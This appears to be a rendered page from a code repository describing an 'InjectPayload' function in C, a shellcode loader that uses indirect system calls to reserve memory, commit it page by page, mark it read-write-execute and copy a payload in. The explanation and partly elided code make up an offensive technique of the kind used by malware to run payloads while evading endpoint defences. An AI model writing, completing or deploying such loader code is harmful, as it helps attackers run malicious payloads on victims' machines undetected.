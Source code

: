 ### Code Injection Strategy and Implementation

#### Implementation of the `InjectPayload` Function

1. **Memory Allocation**:
   - Use the `NtAllocateVirtualMemory` system call to allocate memory in the current process. Initially, allocate a read-only page, then adjust the address and size for subsequent operations.
   - Allocate memory in chunks through a loop, where each allocation corresponds to one page size (4096 bytes), and set the memory to read/write access.
2. **Memory Protection**:
   - In a second loop, use `NtProtectVirtualMemory` to set the permissions of the allocated memory pages to executable, readable, and writable (RWX), enabling subsequent writing and execution.
3. **Write Payload**:
   - Write the payload data into the allocated memory page by page, using the `Memcpy` function for memory copying.
4. **Return Results**:
   - Return the address of the injected payload to the caller.

```c
BOOL InjectPayload(IN PBYTE pPayloadBuffer, IN SIZE_T sPayloadSize, OUT PBYTE* pInjectedPayload)
{
    // ... existing code ...
    sNewPayloadSize = SET_TO_MULTIPLE_OF_4096(sPayloadSize) + PAGE_SIZE;
    
    // Allocate memory
    SET_SYSCALL(g_Nt.NtAllocateVirtualMemory);
    if (!NT_SUCCESS(STATUS = RunSyscall(NtCurrentProcess(), &pAddress, 0, &sNewPayloadSize, MEM_RESERVE, PAGE_READONLY))) {
        // ... error handling ...
        return FALSE;
    }

    // Adjust base address and size
    sNewPayloadSize -= PAGE_SIZE;
    pAddress = (PVOID)((ULONG_PTR)pAddress + PAGE_SIZE);

    // Commit memory with RW permissions
    for (DWORD i = 0; i < ii; i++) {
        // ... allocate and commit memory ...
    }

    // Change memory to RWX
    for (DWORD i = 0; i < ii; i++) {
        // ... change protection ...
    }

    // Write payload
    for (DWORD i = 0; i < ii; i++) {
        Memcpy(pTmpAddress, pTmpPayload, PAGE_SIZE);
        // ... adjust pointers ...
    }
    *pInjectedPayload = pAddress;
    return TRUE;
}

```

